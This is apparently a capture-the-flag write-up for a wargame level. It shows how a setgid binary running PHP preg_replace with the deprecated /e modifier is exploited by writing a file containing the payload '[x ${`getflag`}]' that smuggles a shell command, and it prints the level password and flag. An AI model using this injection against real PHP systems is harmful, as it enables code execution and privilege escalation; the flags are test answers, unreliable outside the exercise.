 # level06

## Vulnerability: Deprecated function leading to code injection

level06's password: `viuaaale9huek52boumoomioc`

1. examinate existing files and permissions

```shell
ls -la
```

shows that the level06 executable belongs to flag06 group, privilege escalation should be possible

2. get the executable (from an external device), decompile it using [retdec](https://github.com/avast/retdec) and examine the resulting code

```shell
scp -P 4242 level06@<host>:level06 .
retdecomp level06
```

setresgid() confirms that privilege escalation is possible

4. examinate the existing php code

```shell
cat level06.php
```

shows deprecated `\e` regex modifier, which indicates we can inject code in the string. preg_replace will perform the regex substitution then evaluate the code

5. inject some code to pwn the flag

```shell
echo '[x ${`getflag`}]' > /tmp/exploit.php
```

```shell
./level06 /tmp/exploit.php
```

gives flag: `wiok45aaoguiboiki2tuin6ub`
